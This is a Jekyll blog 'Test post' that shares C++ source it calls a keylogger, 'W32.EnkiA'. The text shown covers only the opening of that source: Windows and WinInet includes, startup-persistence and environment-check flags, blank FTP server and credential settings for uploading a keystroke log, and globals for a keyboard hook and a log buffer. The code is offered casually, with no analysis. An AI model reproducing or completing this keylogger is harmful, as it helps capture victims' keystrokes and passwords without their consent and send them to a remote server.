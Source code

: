 ```yaml
---
layout: post
title:  "Test post"
date:   2016-04-24 00:00:00 +0100
categories: who nullbyte
tags:
 - test
author: dTm
---
```


## Test post from dTm

Suh dudes.

## Some random Keylogger code here in C++ "W32.EnkiA"

{% highlight c++ linenos %}
#include <string.h>
#include <Windows.h>
#include <WinInet.h>
#include <ShlObj.h>

#pragma comment(lib, "WININET")

#define DEBUG
#define STARTUP
#define CHECK_ENV

#define NAME "Enki"
#define KEY_FILE "\\keylog.txt"

// FTP settings
#define FTP_SERVER ""
#define FTP_USERNAME ""
#define FTP_PASSWORD ""
#define FTP_LOG_PATH "/Enki_Log.txt"

#define MAX_LOG_SIZE 4096
#define BUF_SIZ 1024
#define BUF_LEN 1
#define MAX_VALUE_NAME 16383

#define HOTKEY_ID 69

#define TIMEOUT 1000 * 60 * 1 // 1 minute

// global handle to file
HANDLE ghFile = NULL;
// global handle to hook
HHOOK ghHook = NULL;
// global handle to mutex
HANDLE ghMutex = NULL;

// global handle to log heap
HANDLE ghLogHeap = NULL;
// global string pointer to log buffer
LPSTR lpLogBuf = NULL;
// current max size of log buffer
DWORD dwLogBufSize = 0;

// timer
DWORD dwTime = 0;

// keylog file path
CHAR LogFilePath[MAX_PATH];
